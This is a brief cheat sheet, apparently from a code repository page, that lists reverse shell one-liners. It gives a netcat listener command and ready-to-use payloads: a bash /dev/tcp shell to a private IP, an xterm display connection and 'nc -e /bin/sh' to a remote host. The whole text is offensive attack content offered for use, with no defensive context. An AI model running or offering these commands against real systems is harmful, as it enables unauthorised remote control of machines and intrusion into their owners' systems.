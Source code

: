 To use any reverse shell here, open a connection on your machine: nc -lvnp 4444

Some variables you can try when it comes to reverse shell:

bash -i >& /dev/tcp/192.168.0.1/8080 0>&1

xterm -display 192.168.0.5:4444

nc -e /bin/sh 192.168.0.5 4444

Good Lucky !
